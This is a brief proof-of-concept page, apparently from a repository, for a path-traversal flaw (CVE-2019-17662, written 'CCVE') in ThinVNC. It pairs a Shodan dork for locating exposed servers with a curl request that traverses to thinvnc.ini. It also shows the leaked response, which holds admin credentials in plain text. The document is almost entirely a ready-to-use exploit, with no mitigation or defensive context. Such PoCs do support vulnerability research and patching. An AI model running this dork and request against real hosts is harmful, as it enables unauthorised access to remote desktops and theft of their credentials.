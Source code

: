 ## CCVE-2019-17662
- Shodan dorks: <br/>
	  "ThinVNC" <br/>

	  
### POC
	  curl -k -X 'GET' "http://victim_ip_address:port/a/\../\../thinvnc.ini"
	  
	  Response:
      [Authentication]
      Unicode=0
      User=admin
      Password=admin
      Type=Digest
      [Http]
      Port=8080
      Enabled=1
      [Tcp]
      Port=
      [General]
      AutoStart=1
